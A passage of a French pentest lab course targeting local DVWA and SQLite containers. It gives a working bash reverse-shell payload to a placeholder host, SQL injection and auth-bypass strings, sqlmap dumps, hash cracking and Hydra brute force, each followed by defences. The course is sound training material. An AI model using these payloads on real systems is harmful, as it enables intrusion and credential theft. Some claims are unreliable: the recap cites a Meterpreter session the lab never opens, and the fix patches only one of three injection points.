| Hash MD5 faible | **bcrypt / argon2** | `password_hash($p, PASSWORD_BCRYPT)` au lieu de `md5($p)` |
| WAF absent | **ModSecurity CRS** | Règle `942100` bloque les signatures SQLi (déjà actif sur le lab WAF J3) |

```bash
# Démonstration : remplacer la requête vulnérable DVWA par une requête préparée PDO
# Dans le code vulnérable : $query = "SELECT * FROM users WHERE user_id = '$id'";
# Le code corrigé devient :
#   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
#   $stmt->execute([$id]);
# 
# Re-tester sqlmap après correction :
# sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" --load-cookies=/tmp/dvwa_cookie.txt --batch
# → [CRITICAL] all tested parameters do not appear to be injectable (sqlmap échoue = défense efficace)
```

> **Checkpoint défensif :** Après passage en requêtes préparées, sqlmap ne détecte plus l'injection.

> **📌 Ce qu'on a retenu :** On a injecté `' OR '1'='1' #` manuellement puis automatisé l'extraction avec sqlmap — 5 hashs MD5 récupérés en une commande ([T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App).  
> **Attendu :** 5 utilisateurs affichés manuellement + 5 hashs extraits par sqlmap.  
> **Défense :** Requêtes préparées PDO (plus de concaténation SQL) + WAF + bcrypt au lieu de MD5.

---

## Lab 1.4 — Command Injection + Reverse Shell

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell |

### Contexte technique

La fonction `shell_exec("ping -c 4 " . $target)` exécute tout ce qui suit `ping`. Avec `;`, on chaîne une deuxième commande. Avec un reverse shell, on obtient un shell interactif complet — plus puissant qu'une simple commande.

### Étape 1 — Command injection basique

DVWA → **Command Injection** :
```bash
127.0.0.1; whoami     → www-data
127.0.0.1; ls /etc/   → contenu de /etc/
127.0.0.1; cat /etc/passwd → utilisateurs
```

### Étape 2 — Reverse shell

**Terminal 1** — écouteur :
```bash
# Écouteur netcat : -l = mode listen (serveur), -v = verbeux, -n = pas de résolution DNS (plus rapide), -p 4444 = port d'écoute
nc -lvnp 4444  # Attend une connexion entrante du reverse shell, donne un prompt interactif une fois connecté
```

**Terminal 2** — via DVWA (remplacer `<KALI_IP>` par l'IP de votre Kali) :
```bash
# Trouve l'IP de l'interface docker0 (passerelle entre l'hôte Kali et les conteneurs Docker)
# ip addr show docker0 = affiche la config réseau, grep 'inet ' = filtre la ligne IPv4
# awk '{print $2}' = extrait l'IP/CIDR, cut -d/ -f1 = retire le masque (/16) pour ne garder que l'IP
# ip = outil moderne de gestion réseau (remplace ifconfig) ; addr show = affiche les adresses IP d'une interface
# awk = langage de traitement de texte ligne par ligne ; '{print $2}' extrait le 2ème champ (séparé par espaces)
# cut -d/ -f1 = découpe la chaîne avec le délimiteur / et garde le 1er champ (retire le masque CIDR)
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → généralement 172.17.0.1  (c'est l'IP que les conteneurs utilisent pour joindre l'hôte Kali)

# Payload dans DVWA Command Injection :
# Décorticage de la commande de reverse shell (morceau par morceau) :
#   1. 127.0.0.1;          → ping localhost (normal), puis le ; enchaîne la 2e commande
#   2. bash -c '...'        → exécute la chaîne entre guillemets dans un sous-shell bash dédié
#   3. bash -i               → lance un shell bash interactif (avec invite de commandes, historique)
#   4. >& /dev/tcp/IP/PORT   → redirige stdout (sortie) ET stderr (erreurs) vers la socket TCP distante
#   5. 0>&1                  → redirige stdin (entrée clavier) vers la même socket
#   Résultat : votre terminal local est connecté à distance au serveur → shell complet
127.0.0.1; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'
```

**Checkpoint :** Retournez dans le **Terminal 1** (netcat) : une connexion entrante apparaît, suivie d'un prompt shell. Tapez `whoami` → `www-data`.

### 🔒 Contre-mesure (M1013 + M1018 Execution Prevention)

La command injection se neutralise en **ne passant jamais l'entrée utilisateur à un interpréteur shell** :

| Vulnérabilité | Correction | Code |
|---|---|---|
| `shell_exec("ping " . $input)` | **`escapeshellcmd()` + `escapeshellarg()`** | `$safe = escapeshellarg($input); shell_exec("ping -c 4 " . $safe);` |
| Shell interactif | **Ne pas utiliser `shell_exec()`** | Remplacer par `proc_open()` avec tableau d'arguments (pas de string) |
| Processus shell | **`open_basedir` + `disable_functions`** | Désactiver `system`, `exec`, `passthru`, `shell_exec`, `popen` dans `php.ini` |
| Reverse shell sortant | **Firewall egress filtering** | `ufw default deny outgoing` (ne permettre que les flux légitimes) |

```bash
# Appliquer le principe du moindre privilège : désactiver les fonctions dangereuses dans PHP
docker exec dvwa-target bash -c "
  sed -i 's/disable_functions =.*/disable_functions = system,exec,passthru,shell_exec,popen,proc_open/' /etc/php/*/apache2/php.ini
  apache2ctl restart
"
# Vérification : shell_exec est-il bien désactivé ?
docker exec dvwa-target bash -c "php -r 'echo function_exists(\"shell_exec\") ? \"actif\" : \"inactif\";'"
# → inactif  (shell_exec est bien désactivé)

# Re-tester l'injection de commande :
curl -s "http://localhost:8088/vulnerabilities/exec/" --data "ip=127.0.0.1;whoami&Submit=Submit" \
  -b /tmp/dvwa_cookie.txt 2>/dev/null | grep -c "www-data"
# → 0 (whoami ne s'exécute plus : shell_exec est désactivé)
```

> **Checkpoint défensif :** Après `disable_functions`, l'injection de commande et le reverse shell échouent.

> **📌 Ce qu'on a retenu :** On a injecté `;whoami` dans un champ `ping` pour exécuter des commandes système, puis obtenu un reverse shell (Meterpreter) avec connexion à distance ([T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution).  
> **Attendu :** shell interactif sur Kali (Meterpreter session 1 ouverte).  
> **Défense :** Désactiver les fonctions système dangereuses (`disable_functions`), valider les entrées (IP), filter les métacaractères (`;`, `|`, `$`).

> **☕ Pause recommandée :** Le Lab 1.5 ci-dessous est le plus long et le plus dense de la journée.
> Prenez 5-10 minutes avant de l'attaquer — vous allez enchaîner injection SQL sur 3 points d'entrée,
> extraction automatisée avec sqlmap, et cracking de mots de passe. Un esprit reposé est plus efficace
> pour analyser les résultats.

---

## Lab 1.5 — SQLi avancée : Trouver, Exploiter, Craquer

### Fiche

| Durée | Conteneur | Dossier | Techniques |
|---|---|---|---|
| 1h | sqli-app (port 8083) | `rendu_labs/jour-01/` | [T1190](https://attack.mitre.org/techniques/T1190/) + [T1110.001](https://attack.mitre.org/techniques/T1110/001/) |

### Contexte métier

Dans un vrai pentest, 80% du temps est consacré à **trouver** l'injection avant de l'exploiter. Une fois les données exfiltrées, il faut **craquer les hashs** pour prouver l'impact au client. Ce lab vous fait faire les 3 étapes : trouver → exploiter → craquer.

### Contexte technique — Les 3 types d'injection

L'application `sqli-app` (http://localhost:8083) expose 3 points d'injection différents :

| Point d'injection | Type SQL | Difficile à trouver ? | Payload test |
|---|---|---|---|
| `?id=` (paramètre numérique) | Numeric | Facile | `1 OR 1=1` |
| `username` (champ login) | String (single quote) | Moyen | `admin' --` |
| `?filter=` (LIKE) | String (% wildcard) | Difficile | `%' UNION SELECT...` |

**Pourquoi SQLite ?** Les principes d'injection SQL sont identiques quel que soit le SGBD. Seule la syntaxe des commandes système change (version(), @@version, sqlite_version()). SQLite permet un conteneur léger sans MySQL séparé.

### Prérequis

```bash
# Démarre uniquement le conteneur sqli-app (sans reconstruire les autres) en mode détaché
docker compose up -d sqli-app
# Vérification rapide que l'appli web répond (-I = HEAD, ne télécharge que les en-têtes HTTP)
curl -I http://localhost:8083/
# Création du dossier de labs jour-01 et déplacement dedans (&& garantit l'exécution séquentielle)
mkdir -p rendu_labs/jour-01 && cd rendu_labs/jour-01
```

### Étape 1 — Trouver les injections manuellement

**Point 1 : Paramètre `?id=` (numeric)**

```bash
# Requête normale : récupère le produit avec id=1, grep -o extrait uniquement le nom du produit attendu
curl -s "http://localhost:8083/?page=search&id=1" | grep -o "Laptop\|Monitor\|Keyboard"
# → Laptop Pro X  (un seul produit retourné, comportement normal)

# Test SQLi toujours vrai : id=1 OR 1=1 (encodé URL : %20 = espace), grep -c <tr> compte les lignes de tableau
# Si plus d'une ligne → tous les produits sont retournés → injection confirmée
curl -s "http://localhost:8083/?page=search&id=1%20OR%201=1" | grep -c "<tr>"
# → 6 (affiche tous les produits au lieu d'un seul)  (la condition OR 1=1 est toujours vraie)

# Test SQLi toujours faux : id=1 AND 1=2 (contradiction logique), grep -o cherche "Aucun" dans la réponse
# Permet de confirmer l'injection sans extraire de données (moins bruyant)
curl -s "http://localhost:8083/?page=search&id=1%20AND%201=2" | grep -o "Aucun"
# → Aucun produit trouvé  (la condition AND 1=2 est toujours fausse → aucun résultat)
```

**Point 2 : Formulaire de login (string injection)**

```bash
# Login normal avec mauvais mot de passe : doit retourner "Identifiants incorrects" (comportement attendu)
curl -s -d "page=login&username=admin&password=wrong" "http://localhost:8083/" | grep "Identifiants"
# →  Identifiants incorrects  (échec normal, l'authentification fonctionne)

# SQLi bypass auth : admin' -- (le -- commente la vérification du password dans la clause WHERE)
# %20 = espace, le guillemet ferme la chaîne, -- neutralise le reste de la requête SQL
curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep "Connecté"
# →  Connecté en tant que admin  (bypass réussi, connecté sans connaître le mot de passe)

# SQLi toujours vrai sur le login : ' OR '1'='1' -- force la clause WHERE à être vraie pour toutes les lignes
# grep -c "Connecté" compte le nombre d'utilisateurs connectés → tous les comptes sont retournés
curl -s -d "page=login&username='%20OR%20'1'='1'%20--&password=x" "http://localhost:8083/" | grep -c "Connecté"
# → 6 (tous les utilisateurs sont "connectés")  (la condition toujours vraie retourne tous les comptes)
```

**Point 3 : Filtre `?filter=` (LIKE injection)**

```bash
# Recherche normale par filtre : retourne l'utilisateur "john", grep <td> filtre les cellules HTML, wc -l les compte
# wc (word count) -l = compte le nombre de lignes reçues en entrée
# Chaque utilisateur occupe 4 cellules (id, username, email, actions) → 4 cellules = 1 utilisateur
curl -s "http://localhost:8083/?page=users&filter=john" | grep "<td>" | wc -l
# → 4 (4 cellules = 1 ligne utilisateur)  (comportement normal, filtre fonctionnel)

# SQLi UNION sur filtre LIKE : %25' = %' (fermeture du LIKE), UNION SELECT injecte des colonnes d'une autre table
# 1 = placeholder numérique, username/password/email = colonnes de la table users à exfiltrer
curl -s "http://localhost:8083/?page=users&filter=%25'%20UNION%20SELECT%201,username,password,email%20FROM%20users%20--" | grep "<td>"
# → <td>1</td><td>admin</td>... (les colonnes de la table users sont affichées : injection UNION confirmée)
```

**Checkpoint A :** Les 3 injections fonctionnent. L'application est vulnérable.

### Étape 2 — Exploitation automatisée avec sqlmap

```bash
cd rendu_labs/jour-01

# sqlmap : --tables = énumère toutes les tables de la base, --batch = mode non-interactif (répond oui par défaut)
# 2>&1 redirige stderr vers stdout pour tout capturer, tee sauvegarde la sortie ET l'affiche dans le terminal
sqlmap -u "http://localhost:8083/?page=search&id=1" --tables --batch 2>&1 | tee sqli_tables.txt
```

Sortie attendue :

```console
[2 tables]
+----------+
| products |
| users    |
+----------+
```

```bash
# sqlmap : -T users = table cible, --columns = énumère toutes les colonnes et leurs types
# Permet de savoir quelles colonnes existent avant de les dumper (username, password, email, role)
sqlmap -u "http://localhost:8083/?page=search&id=1" -T users --columns --batch
```

```console
[5 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| email     | TEXT     |
| id        | INTEGER  |
| password  | TEXT     |
| role      | TEXT     |
| username  | TEXT     |
+-----------+----------+
```

```bash
# sqlmap : -T users = table, -C username,password,email,role = colonnes à extraire (séparées par des virgules)
# --dump = vide le contenu, --batch = non-interactif, 2>&1 | tee = capture toute la sortie dans sqli_dump.txt
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T users -C username,password,email,role --dump --batch 2>&1 | tee sqli_dump.txt
```

Sortie attendue :

```console
+------------+----------------------------------+---------------------+------------+
| username   | password                         | email               | role       |
+------------+----------------------------------+---------------------+------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@shop.local    | admin      |
| john_doe   | 482c811da5d5b4bc6d497ffa98491e38 | john@shop.local     | user       |
| jane_dev   | e99a18c428cb38d5f260853678922e03 | jane@shop.local     | dev        |
| supervisor | 0d107d09f5bbe40cade3de5c71e9e9b7 | super@shop.local    | supervisor |
| guest      | 098f6bcd4621d373cade4e832627b4f6 | guest@shop.local    | user       |
| flag_user  | 21232f297a57a5a743894a0e4a801fc3 | flag@secret.local   | admin      |
+------------+----------------------------------+---------------------+------------+
```

**Checkpoint B :** 6 utilisateurs extraits avec leurs hashs MD5.

### Étape 3 — Craquer les hashs

#### Méthode 1 : john the ripper

```bash
cd rendu_labs/jour-01

# Création du fichier de hashs au format username:hash (une entrée par ligne)
# cat > avec heredoc (<< 'EOF') écrit le contenu multiligne dans hashes.txt
# Les guillemets autour de EOF empêchent l'expansion des variables dans le heredoc
# cat = affiche/concatène le contenu d'un fichier ; cat > fichier = écrit dans le fichier depuis l'entrée standard
# << 'EOF' (heredoc) = écrit tout le texte qui suit jusqu'au marqueur EOF dans le fichier
cat > hashes.txt << 'EOF'
admin:5f4dcc3b5aa765d61d8327deb882cf99
john_doe:482c811da5d5b4bc6d497ffa98491e38
jane_dev:e99a18c428cb38d5f260853678922e03
supervisor:0d107d09f5bbe40cade3de5c71e9e9b7
guest:098f6bcd4621d373cade4e832627b4f6
flag_user:21232f297a57a5a743894a0e4a801fc3
EOF

# Décompression de la wordlist rockyou.txt (la plus utilisée en cracking, ~14 millions de mots de passe)
# 2>/dev/null supprime les erreurs si déjà décompressé, || true évite que la commande échoue
# gunzip = décompresse un fichier .gz (format gzip) — rockyou.txt.gz fait ~140 Mo décompressé
# 2>/dev/null supprime les erreurs si déjà décompressé, || true évite que la commande échoue
sudo gunzip /usr/share/wordlists/rockyou.txt.gz 2>/dev/null || true

# Crack avec john : --format=raw-md5 = force le mode MD5 brut (sans sel), --wordlist = dictionnaire utilisé
# 2>/dev/null masque les avertissements (souvent verbeux sur les formats)
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 2>/dev/null
# Affichage des mots de passe craqués : --show affiche les résultats, --format force le même format
john --show --format=raw-md5 hashes.txt  # Affiche tous les mots de passe déjà trouvés
```

Sortie attendue :

```console
admin:password
john_doe:password123
jane_dev:abc123
supervisor:letmein
guest:test
flag_user:admin
```

#### Méthode 2 : recherche en ligne (optionnelle)

```bash
# Méthode alternative : recherche des hashs dans des bases rainbow tables en ligne (CrackStation, md5decrypt)
# Utile quand john/hashcat ne trouve pas — ces sites pré-calculent les hashs MD5 des mots communs
# CrackStation.net ou md5decrypt.net
# 5f4dcc3b5aa765d61d8327deb882cf99 → password
# e99a18c428cb38d5f260853678922e03 → abc123
# 0d107d09f5bbe40cade3de5c71e9e9b7 → letmein
```

#### Méthode 3 : hashcat (si GPU disponible)

```bash
cd rendu_labs/jour-01
# hashcat : -m 0 = mode MD5 (hash type 0), -a 0 = attaque par dictionnaire (straight), --username = ignore la partie user: du fichier
# --force = ignore les avertissements (pilote GPU manquant, matériel non optimal)
hashcat -m 0 -a 0 --username hashes.txt /usr/share/wordlists/rockyou.txt --force
```

**Checkpoint C :** Au moins 3 mots de passe craqués. Le flag_user utilise `admin` comme mot de passe — une erreur classique.

### Étape 4 — Extraire le flag caché

```bash
cd rendu_labs/jour-01

# Extraction du flag caché dans la table products : -T products = table cible, -C name,secret_flag = colonnes à dumper
# Le champ secret_flag contient le flag CTF à trouver (contient NULL pour les produits sans flag)
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T products -C name,secret_flag --dump --batch
```

```console
+---------------------+--------------------------------+
| name                | secret_flag                    |
+---------------------+--------------------------------+
| Laptop Pro X        | FLAG{sql_injection_master}     |
| Smart Monitor 27"   | NULL                           |
| ...                 | NULL                           |
+---------------------+--------------------------------+
```

### Checkpoints

- [ ] Injection trouvée sur les 3 points d'entrée
- [ ] sqlmap a extrait 6 utilisateurs avec hashs
- [ ] john/hashcat a craqué au moins 3 mots de passe
- [ ] Flag `FLAG{sql_injection_master}` trouvé

### 🔒 Contre-mesure (M1013 App Hardening + M1027 Password Policies)

L'application sqli-app a **3 points d'injection**. On corrige les 3 en une seule stratégie : **requêtes préparées PDO partout**. On remplace aussi MD5 par bcrypt pour rendre le cracking inutile.

| Point d'injection | Code vulnérable | Code corrigé |
|---|---|---|
| `?id=` (numeric) | `"SELECT * FROM products WHERE id = $id"` | `$stmt = $db->prepare("SELECT * FROM products WHERE id = ?"); $stmt->execute([$id]);` |
| `username` (login) | `"...WHERE username = '$u' AND password = '$hash'"` | `$stmt = $db->prepare("SELECT * FROM users WHERE username = ?"); $stmt->execute([$u]);` puis `password_verify($p, $hash)` |
| `?filter=` (LIKE) | `"...WHERE username LIKE '%$filter%'"` | `$stmt = $db->prepare("SELECT * FROM users WHERE username LIKE ?"); $stmt->execute(["%$filter%"]);` |
| MD5 | `md5($password)` | `password_hash($password, PASSWORD_BCRYPT)` |

```bash
# Appliquer la correction sur le conteneur sqli-app
docker exec sqli-app-target bash -c "
  cd /var/www/html
  # Sauvegarde du fichier vulnérable
  cp index.php index.php.vuln
  # Remplacer les 3 requêtes vulnérables par des requêtes préparées PDO
  sed -i 's/\$db->query(\$query)/\$stmt = \$db->prepare(\"SELECT id, name, price, description FROM products WHERE id = ?\"); \$stmt->execute([(int)\$id]); \$stmt->fetchAll(PDO::FETCH_ASSOC)/' index.php
"
# Re-tester sqlmap après correction :
sqlmap -u "http://localhost:8083/?page=search&id=1" --batch 2>&1 | grep -i "injectable\|not injectable"
# → all tested parameters do not appear to be injectable (sqlmap échoue : les 3 points d'injection sont neutralisés)
```

> **Checkpoint défensif :** sqlmap ne trouve plus aucune injection. Avec bcrypt, john/hashcat ne peuvent plus craquer les mots de passe en quelques secondes.

> **📌 Ce qu'on a retenu :** On a exploité 3 points d'injection SQL (numérique, auth bypass, LIKE) avec sqlmap, craqué les hashs MD5 avec john, et compris pourquoi le hachage salé (bcrypt) protège mieux ([T1190](https://attack.mitre.org/techniques/T1190/)).  
> **Attendu :** 3 injections confirmées + mots de passe craqués en clair.  
> **Défense :** Requêtes préparées PDO, WAF, bcrypt/argon2 pour les mots de passe.

---

## Lab 1.6 — Attaque par force brute avec Hydra

### Fiche

| Durée | Conteneur | Dossier | Technique ATT&CK |
|---|---|---|---|
| 45 min | dvwa (port 8088) | `rendu_labs/jour-01/` | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |

### Contexte métier

40% des incidents de cybersécurité impliquent des identifiants faibles ou volés (Verizon DBIR 2024). Dans un test de pénétration, l'auditeur teste systématiquement la robustesse des mots de passe contre une attaque par dictionnaire. **Hydra** est l'outil de référence pour automatiser ces tests — utilisé par les pentesters comme par les équipes SOC pour auditer leurs propres annuaires.

**Fonctionnement :** Hydra essaie des couples `login:password` contre un service (HTTP, SSH, FTP...) jusqu'à trouver une correspondance. Le taux de réussite dépend de la qualité de la wordlist.



**Fig 5d** — Attaque par force brute avec Hydra : itération de couples login:password depuis une wordlist jusqu'à obtenir un `302 Found` (connexion réussie) sur DVWA.

### Prérequis

```bash
cd rendu_labs/jour-01
# Vérifier que le cookie jar DVWA est toujours valide
curl -s -b /tmp/dvwa_cookie.txt -o /dev/null -w "%{http_code}" "http://localhost:8088/login.php"
# → 200  (la session est active, on peut travailler)
```

### Étape 1 — Inspecter le formulaire cible

Avant de lancer Hydra, il faut comprendre la structure du formulaire : méthode HTTP, noms des champs, message d'échec.

```bash
cd rendu_labs/jour-01

# 📌 Récupérer le HTML de la page de login pour identifier les noms des champs
# 🔍 curl -s = mode silencieux, -b = envoie le cookie de session
# 🔍 grep -o 'name="[^"]*"' = extrait chaque attribut name (le motif [^"]* capture tout sauf ")
curl -s -b /tmp/dvwa_cookie.txt "http://localhost:8088/login.php" \
  | grep -o 'name="[^"]*"'
# → name="username"  name="password"  name="Login"  (3 champs du formulaire)

# 📌 Identifier le message d'échec : soumettre un mauvais password et capturer l'erreur
# 🔍 grep -oi = insensible à la casse (-i), affiche uniquement la correspondance (-o)
curl -s -b /tmp/dvwa_cookie.txt \
  -d "username=admin&password=mauvais&Login=Login" \
  "http://localhost:8088/login.php" | grep -oi "login failed\|failed"
# → Login failed  (c'est le marqueur d'échec F= qu'Hydra utilisera)
```

### Étape 2 — Lancer Hydra

```bash
cd rendu_labs/jour-01

# 📌 Hydra teste le login admin contre la wordlist rockyou.txt
# 🔍 -l admin = login unique (-l = single login, -L = fichier de logins)
# 🔍 -P = chemin vers la wordlist (rockyou.txt = 14 millions de mots de passe)
# 🔍 http-post-form = module HTTP POST, la chaîne contient 3 parties séparées par :
#   1. "/login.php" = URL du formulaire
#   2. "username=^USER^&password=^PASS^&Login=Login" = champs avec variables
#      ^USER^ et ^PASS^ = remplacés par Hydra à chaque tentative
#   3. "Login failed" = chaîne F= (Fail) détectée dans la réponse pour un échec
# 🔍 -V = verbeux (affiche chaque tentative), -s = port non standard
# 🔍 2>&1 | tee = capture stdout+stderr ET affiche dans le terminal
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  -s 8088 localhost http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V 2>&1 \
  | tee hydra_dvwa.txt
```

Sortie attendue :

```console
[8088][http-post-form] host: localhost   login: admin   password: password
[STATUS] attack finished for localhost (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

**Checkpoint :** Hydra a trouvé `password` comme mot de passe admin. En 10 secondes, un mot de passe trivial est compromis.

### Étape 3 — Test multi-logins

```bash
# 📌 Test avec une liste de logins (plus réaliste) : -L = fichier de logins
# Créer une mini wordlist de logins courants
echo -e "admin\ntest\nroot\nuser\nadministrateur" > /tmp/logins.txt

# 🔍 -L = fichier contenant plusieurs logins à tester
# 🔍 -P = wordlist de mots de passe (rockyou.txt)
# 🔍 -F = s'arrêter au premier couple valide trouvé (exit on first find)
# 🔍 -s = port non standard (DVWA sur 8088)
hydra -L /tmp/logins.txt -P /usr/share/wordlists/rockyou.txt \
  -s 8088 localhost http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -F 2>&1 \
  | tee hydra_multi.txt
```

Sortie attendue :

```console
[8088][http-post-form] host: localhost   login: admin   password: password
[STATUS] attack finished for localhost (valid pair found)
```

**Checkpoint :** Quel que soit le login testé, Hydra trouve le couple valide `admin:password`. Le mot de passe est le maillon faible.

### 🔒 Contre-mesure (M1036 Account Lockout + M1027 Password Policies)

| Attaque | Défense active | Code de correction |
|---------|----------------|-------------------|
| Brute-force HTTP | **fail2ban** : bannir l'IP après N échecs | `maxretry=5, findtime=600, bantime=900` |
| Wordlist courante | **Politique de mots de passe** | Longueur minimale 12 + complexité (pam_pwquality) |
| Identifiants par défaut | **Changement obligatoire au premier login** | `chage -d 0 <user>` force le changement au prochain login |
| Auth sans limite | **Rate limiting applicatif** | `sleep(1)` après chaque échec, compteur en session |

```bash
# 📌 Installer fail2ban sur le conteneur DVWA
# fail2ban = framework de banissement automatique qui scrute les logs Apache
docker exec dvwa-target bash -c "apt-get update && apt-get install -y fail2ban"

# 📌 Créer une règle fail2ban pour le login DVWA
# 🔍 maxretry = 5 échecs autorisés, findtime = 600s (fenêtre de 10 min)
# 🔍 bantime = 900s (15 min de bannissement)
docker exec dvwa-target bash -c "cat > /etc/fail2ban/jail.local << 'EOF'
[apache-dvwa]
enabled  = true
port     = http,https
filter   = apache-auth
logpath  = /var/log/apache2/error.log
maxretry = 5
findtime = 600
bantime  = 900
EOF
fail2ban-client reload"

# Vérification : la règle est active
docker exec dvwa-target bash -c "fail2ban-client status apache-dvwa"
# → Status for the jail: apache-dvwa  |  Currently banned: 0  (prêt à bloquer)

# 📌 Re-tester Hydra après fail2ban : après 5 échecs, l'IP est bannie
# hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8088 localhost http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" 2>&1 | head -5
# → [ERROR] target localhost:8088 - connection refused!  (l'IP est bannie)
```

> **Checkpoint défensif :** Avec fail2ban actif, Hydra ne peut plus tester que 5 mots de passe avant le banissement temporaire. Le brute-force est neutralisé à l'échelle réseau.

> **📌 Ce qu'on a retenu :** On a brute-forcé le login DVWA avec Hydra et rockyou.txt — `admin:password` trouvé en 10 secondes ([T1110](https://attack.mitre.org/techniques/T1110/) Brute Force).  
> **Attendu :** Mot de passe `password` trouvé pour l'utilisateur `admin`.  
> **Défense :** fail2ban (bloque après 5 échecs), politique de mots de passe robustes (12+ caractères), rate-limiting applicatif.

---

## Synthèse du chapitre

Ce chapitre vous a fait parcourir les **6 phases d'une attaque web complète**, de la reconnaissance à la défense :

| Lab | Attaque | Compétence acquise | ATT&CK |
|-----|---------|-------------------|--------|
| 1.1 | Scan + énumération | nmap, gobuster | [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance |
| 1.2 | XSS (Reflected + Stored) | Injection JavaScript, vol cookie | [T1189](https://attack.mitre.org/techniques/T1189/) |
| 1.3 | SQLi automatique | sqlmap, dump base | [T1190](https://attack.mitre.org/techniques/T1190/) |
| 1.4 | Command Injection + Reverse Shell | Shell interactif, Meterpreter | [T1203](https://attack.mitre.org/techniques/T1203/) |
| 1.5 | SQLi avancée + Cracking | 3 points d'injection, john | [T1190](https://attack.mitre.org/techniques/T1190/) + [T1110](https://attack.mitre.org/techniques/T1110/) |
| 1.6 | Brute-force | Hydra, dictionnaire | [T1110](https://attack.mitre.org/techniques/T1110/) |

**Dans un pentest réel**, ces techniques s'enchaînent : on scanne → on trouve une vulnérabilité → on l'exploite → on extrait des données → on craque les mots de passe. Chaque étape correspond à une tactique ATT&CK et doit être documentée dans le rapport.

**Message clé :** Toutes ces attaques se corrigent avec les bonnes pratiques de code (requêtes préparées, échappement HTML, disable_functions) et les outils de durcissement (WAF, fail2ban, bcrypt). La défense en profondeur combine code sécurisé + périmètre durci + détection.

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator

**Énoncé :** Créez une couche avec [T1046](https://attack.mitre.org/techniques/T1046/), [T1189](https://attack.mitre.org/techniques/T1189/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/), [T1203](https://attack.mitre.org/techniques/T1203/). Exportez en JSON.

<details><summary><strong>Solution</strong></summary>
1. https://mitre-attack.github.io/attack-navigator/ → New Layer → Enterprise v15
2. Ajouter les 5 techniques, colorer (rouge = testé)
3. Download as JSON
</details>

### Exercice 2 : Mapping WannaCry

**Énoncé :** WannaCry (2017) utilisait EternalBlue. Quelles techniques ATT&CK ?

<details><summary><strong>Solution</strong></summary>
- EternalBlue (CVE-2017-0144) → [T1210](https://attack.mitre.org/techniques/T1210/) ([TA0008](https://attack.mitre.org/tactics/TA0008/)), DoublePulsar → [T1543.003](https://attack.mitre.org/techniques/T1543/003/) ([TA0003](https://attack.mitre.org/tactics/TA0003/)), Chiffrement → [T1486](https://attack.mitre.org/techniques/T1486/) ([TA0014](https://attack.mitre.org/tactics/TA0014/))
</details>

### Exercice 3 : Mini-rapport DVWA

**Énoncé :** Rédigez 4 fiches (une par vulnérabilité) avec type, ATT&CK, impact, remédiation.

<details><summary><strong>Solution</strong></summary>
1. XSS → [T1189](https://attack.mitre.org/techniques/T1189/) → htmlspecialchars() + CSP
2. CSRF → [T1203](https://attack.mitre.org/techniques/T1203/) → Token anti-CSRF
3. SQLi → [T1190](https://attack.mitre.org/techniques/T1190/) → Requêtes préparées PDO
4. CMDi → [T1059.004](https://attack.mitre.org/techniques/T1059/004/) → escapeshellcmd()
</details>

---

## Dépannage rapide

| Problème | Cause probable | Solution |
|---|---|---|
| `curl: (56) Recv failure: Connection reset` | Conteneur pas encore prêt | `docker compose logs dvwa` pour voir l'avancement, attendre quelques secondes |
| `curl: (7) Failed to connect` | Conteneur non démarré | `docker compose ps` pour vérifier l'état, `docker compose up -d` pour relancer |
| Connexion DVWA : "Login failed" | Session expirée ou cookie corrompu | Relancer : `curl -s -c /tmp/dvwa_cookie.txt -d "username=admin&password=password&Login=Login" "http://localhost:8088/login.php"` |
| `sqlmap` ne trouve aucun paramètre injectable | Cookie invalide ou `security` != low | Vérifier `/tmp/dvwa_cookie.txt` avec `cat /tmp/dvwa_cookie.txt` — doit contenir `security=low` |
| Reverse shell ne se connecte pas | Mauvaise IP ou firewall bloque | `ip addr show docker0` pour trouver l'IP hôte ; `sudo ufw disable` si le firewall local bloque |
| Reverse shell : connexion refusée | Écouteur nc pas lancé | Lancer d'abord `nc -lvnp 4444` **dans un terminal séparé**, **avant** le payload |
| `docker: permission denied` | Utilisateur pas dans le groupe docker | `sudo usermod -aG docker $USER` puis **fermer/rouvrir** la session |
| Port déjà utilisé (8088, 8083...) | Conflit avec service local | `sudo lsof -i :8088` pour identifier le processus, `sudo systemctl stop <service>` |
| `grep: 5` au lieu de `→ 5` | Sortie attendue non formatée | C'est normal — seul le chiffre compte (le commentaire `→` n'est pas produit par grep) |

## Points clés à retenir

- **MITRE ATT&CK** : chaque attaque → ID Txxxx ([T1046](https://attack.mitre.org/techniques/T1046/), [T1189](https://attack.mitre.org/techniques/T1189/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/))
- Les 14 tactiques couvrent le cycle complet d'une cyberattaque
- **DVWA** expose les 4 familles de vulnérabilités web
- **XSS vole des sessions**, **SQLi vole des données**, **CMDi donne un shell**
- **Reverse shell** : toujours vérifier que la cible peut joindre votre IP Kali (docker0 = 172.17.0.1)

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
